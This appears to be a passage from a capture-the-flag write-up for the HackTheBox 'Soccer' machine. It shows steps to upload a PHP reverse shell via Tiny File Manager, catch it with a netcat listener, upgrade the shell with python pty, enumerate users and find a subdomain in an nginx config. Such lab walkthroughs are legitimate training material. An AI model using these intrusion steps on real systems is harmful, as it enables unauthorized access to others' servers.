 1) In this directory "http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload", I upload my reverse shell(in php)
2) Then I click the button "Upload"
3) After I do click my file just uploaded
4) In the local I open the listening  port with netcat: 
    nc -lnvp  1234
6) I click the button "Open"
7) After I have the reverse shell
8) I upgrade the shell:
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:/home/player$ 
```
9) I discover a new user:
```
www-data@soccer:/$ cd home 
cd home 
www-data@soccer:/home$ ls -all
ls -all
total 12
drwxr-xr-x  3 root   root   4096 Nov 17 09:25 .
drwxr-xr-x 21 root   root   4096 Dec  1 18:51 ..
drwxr-xr-x  3 player player 4096 Nov 28 22:12 player
www-data@soccer:/home$ 
```
10) The user is player
11) Checking the nginx file `/etc/nginx/sites-available/soc-player.htb` found a service on a subdomain `soc-player.soccer.htb`:
```
www-data@soccer:/etc/nginx/sites-available$ cat soc-player.htb
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
www-data@soccer:/etc/nginx/sites-available$ 
```

12) We have discover a new host, add this host in the file"/etc/hosts":
```
┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts         
[sudo] password for kali: 

10.10.11.194    soc-player.soccer.htb
```